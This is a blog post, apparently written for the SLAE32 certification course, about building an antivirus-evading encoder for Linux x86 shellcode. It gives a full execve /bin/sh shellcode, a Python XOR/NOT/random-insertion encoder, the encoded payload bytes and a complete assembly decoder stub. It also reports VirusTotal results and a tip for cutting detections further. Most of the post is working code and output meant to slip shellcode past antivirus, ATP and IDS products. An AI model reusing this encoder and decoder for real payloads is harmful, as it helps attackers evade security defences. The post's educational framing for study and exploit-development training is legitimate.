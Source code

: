```yaml
---
layout: single
title: Shellcode Encoder for Linux x86
date: 2019-10-05
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Encoder
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
Well, let we make a recap of what we have done since now, we have build a [bind shell](https://bolonobolo.github.io/SLAE32-1/), a [reverse shell](https://bolonobolo.github.io/SLAE32-2/) and a [egghunter shellcode](https://bolonobolo.github.io/SLAE32-3/). A lots of nice stuff for hackers out there who want to test their skills, but it's a useless effort if we want to test this nice things in a real scenario where we can meet Antivirus, ATP or IDS systems. Fortunately, some techniques comes in our help.
In the SLAE course we have study some of this techniques and we appreciated them so much that we decided to use them all together adding a pinch of chaos.<br>
We started using the classic ```execve-stack``` shellcode
```hex
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
## Implementation
As said the idea is to use the techniques studied to inject chars inside the execve-stack shellcode. The explanation of the techniques is not in the purposes of this post.
If you want to deeply learn how shellcode encoders works you can search for insertion, XOR and NOT encoders. That said let's explain what we would implement here. 
Given that:
- the hexadecimal alphabet have the corrispective decimal range from 1 to 255 values
- the XOR with fixed char results can be avoided xoring the encoded char with the fixed char (A XOR B ) XOR B = A
- the NOT operation results can be avoided repeating the NOT operation on the encoded char<br>

Implementation of our encoder works like that:
1. Read each char of the shellcode
2. if the decimal value of the char is less of 128, XOR it with the 0xDD char
3. put a placeholder after the XOR encoded char
4. else NOT the char
5. put a different placeholder after the NOT encoded char
6. put a random char choosed in a range from 1 to 169
7. put the 0xaa char at the end indicates that our shellcode is finished
7. print the encoded shellcode

We wrote a python script to do that

## Encoder
```python
#!/usr/bin/python

# Python Encoder (XOR + NOT + Random)
import random
green = lambda text: '\033[0;32m' + text + '\033[0m'

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""

# The end char is 0xaa
end = "\\xaa"

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

        if x < 128:
                # XOR Encoding with 0xDD
                x = x^0xDD
                # placeholder for XOR is 0xbb
                encoded += '\\xbb'
                encoded += '\\x'
                encoded += '%02x' % x
        else:
                # NOT Encoding
                x = ~x
                # placeholder for NOT is 0xcc
                encoded += '\\xcc'
                encoded += '\\x'
                encoded += '%02x' % (x & 0xff)
        # 0xaa is 170 in decimal and the others placeholders are > of 170 we don't want random chars like our placeholders
        encoded += '\\x%02x' % random.randint(1,169) 

print green("Shellcode Len: %d" % len(bytearray(shellcode)))
print green("Encoded Shellcode Len: %d" % len(bytearray(encoded)))
encoded = encoded + end
print encoded
nasm = str(encoded).replace("\\x", ",0x")
nasm = nasm[1:]
# end string char is 0xaa
print green("NASM version:")
# end = end.replace("\\x", ",0x")
print nasm
```
running the script we obtain an obfuscated shellcode, much larger that than the original, but hey a small but full visible shellcode has no future.

```bash
root@slae32-lab:# ./encoder_mixer.py 
Encoded shellcode ...
Shellcode Len: 25
Encoded Shellcode Len: 300
\xbb\xec\x73\xcc\x3f\x9d\xbb\x8d\x51\xbb\xb5\x1b\xbb\xb3\x22\xbb\xf2\x79\xbb\xae\x8e\xbb\xb5\x61\xbb\xb5\x3d\xbb\xf2\x6e\xbb\xf2\x9f\xbb\xbf\x10\xbb\xb4\x89\xcc\x76\x2d\xcc\x1c\x2f\xbb\x8d\x91\xcc\x76\x7e\xcc\x1d\x92\xbb\x8e\x80\xcc\x76\x7b\xcc\x1e\xa7\xcc\x4f\x7f\xbb\xd6\x2b\xcc\x32\x24\xcc\x7f\x37\0xaa
NASM version:
0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
``` 
![](/assets/images/SLAE32/assignment_4/encoded_0.png)<br>

Well, now that we have the encoded shell we have to wrote an assembly decoder, the idea is very simple, the sequence of the chars in shellcode is:<br>
```|placeholder|obfuscated shellcode char|random char|``` <br>
So we need basically 3 functions:
1. a decoder for the XOR encoded char
2. a decoder for the NOT encoded char
3. a switch that read the placeholder and call the right decoder
When we reach the end (char 0xaa) our shellcode is encoded, loaded in EDI and ready to be called

## Decoder
Let's move to the assembly code
```assembly
global _start

section .text
_start:


        jmp short call_decoder


decoder:
        ; the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char
        pop esi
        lea edi, [esi]                  ; load the first placeholder char in edi
        xor eax, eax
        xor ebx, ebx

switch:

        mov bl, byte [esi + eax]        ; load the placeholder in EBX
        cmp bl, 0xaa                    ; compare it with the shellcode end character
        jz shellcode                    ; if whe reached the end jump to the shellcode
        cmp bl, 0xbb                    ; if the placeholder is 0xbb Zero Flag is set
        jz xordecode                    ; if ZF is set jump to XOR decoder
        jmp notdecode                   ; otherwise jump to NOT decoder

xordecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from where we are
        mov byte [edi], bl              ; load it in edi
        xor byte [edi], 0xDD            ; xoring char with 0xdd to obtain the original one
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

notdecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from we are
        mov byte [edi], bl              ; load it in edi
        not byte [edi]                  ; denot char
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

call_decoder:

        call decoder
        shellcode: db 0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
```
Now we can try it
![](/assets/images/SLAE32/assignment_4/encoder_1.gif)<br>
It works!
Let see what Virustotal thinks about our shellcode 
![](/assets/images/SLAE32/assignment_4/encoded_1.png)<br>
Well 11 AV detected our shellcode, not perfect but we can deceive ATP like FireEye and AV like BitDefender, F-Secure, Sophos and ClamAV. 
![](/assets/images/SLAE32/assignment_4/encoded_2.png)<br>
This is a prove our shellcode isn't encoded at best and the encoder itself can be improved but I think this is a good starting point.<br>
You can find this shellcode published on [Exploit-DB](https://www.exploit-db.com/shellcodes/47461)<br>

### Update
Removing the word "Shellcode" from the script improve sensibly our power of obfuscation in Virustotal. In fact using this code to compile and execute the shellcode change positively our results on scan.<br>
![](/assets/images/SLAE32/assignment_4/encoded_3.png)<br>
![](/assets/images/SLAE32/assignment_4/encoded_4.png)<br>
As you can see only McAfee mark it as malicious.<br>
![](/assets/images/SLAE32/assignment_4/encoded_5.png)<br>
This is not an endpoint. To be sure our shellcode is really obfuscated we need to test it on machines running IDS/ATP agents and/or AV. This is the best way to test our obfuscated shellcode, but is out of this post scope. I really appreciate if someone would test it in one or more of the cited environments, please fell free to contact me in this case. Thank you.<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
Student ID: SLAE-1476


